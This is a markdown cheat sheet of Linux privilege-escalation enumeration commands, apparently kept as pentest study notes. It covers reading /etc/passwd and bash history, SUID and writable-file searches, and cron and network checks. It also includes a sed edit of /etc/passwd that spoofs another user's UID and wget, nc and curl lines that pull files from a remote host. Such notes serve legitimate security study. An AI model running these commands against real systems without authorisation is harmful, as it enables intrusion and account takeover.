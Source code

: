## Linux privilege Escalation

* Automated enumeration scripts

```
// https://github.com/diego-treitos/linux-smart-enumeration.git
./lse.sh > output.txt

// https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
linpeas -a > /dev/shm/linpeas.txt
```

* Enumerate General information

```
  # Part of too many groups? Find out all the files you've access to
  for i in $(groups); do echo "=======$i======"; find / -group $i 2>/dev/null | grep -v "proc" >> allfiles; done

  # Look what the user was up to
  less .bash_history
  less mysql_history
```

* Enumerating Users

```
id
whoami
cat /etc/passwd
```

* Get System information

```
cat /etc/issue
cat /etc/*-release
uname -a
```

* Check bash History

```
cat ~/.bash_history
```

* Enumerating Running Processes and Services

```
ps axu
```

* Enumerating Networking Information

```
ip a
/sbin/route
netstat -anp
ss -anp
```

* Enumerating Firewall Status and Rules

```
Root privileges are required to list firewall rules with iptables
Can search for firewall dump configuration as user
		-Command: iptables-save
```

* Enumerating Scheduled Tasks

```
ls -lah /etc/cron*
cat /etc/crontab
grep "CRON" /var/log/cron.log
```

* Enumerating Installed Applications

```
Debian
    dpkg -l
Redhat
    rpm
```

* Enumerating Readable/Writable Files and Directories

```
RUN SUID3NUM to look for SUID bits with colors in python script
find / -writable -type d 2>/dev/null
find / -writable -type f 2>/dev/null
```

* Enumerating Unmounted Disks

```
/bin/lsblk
cat /etc/fstab
mount
```

* Enumerating Kernel Modules

```
// list modules
lsmod

// get details
/sbin/modinfo libata
```

* Enumerating Binaries That AutoElevate

```
find / -perm -u=s -type f 2>/dev/null
```

* Enumerate UID Spoofing

```
Find a file that might have creds but locked for a user that has UUID of '1014' who has rwx permissions on file
Add local user to machine through adduser command 
Change added user to UUID to '1014' and switch to that user and access the file
Command to change specified UUID of new user to '1014'
Command: sudo sed -i -e 's/1001/1014/g' /etc/passwd
```

* HTTP

```
Wget
wget http://<ip>/file_name -O /path/to/save/file

Netcat
nc -nv <ip> <port> > file/to/recv

Curl
curl http://<ip>/file_name --output file_name
```

* Password Policy

```
grep "^PASS_MAX_DAYS\|^PASS_MIN_DAYS\|^PASS_WARN_AGE\|^ENCRYPT_METHOD" /etc/login.defs
```

* Linux PrivEsc Guide

```
// https://noobsec.net/
// https://book.hacktricks.xyz/linux-unix/privilege-escalation
```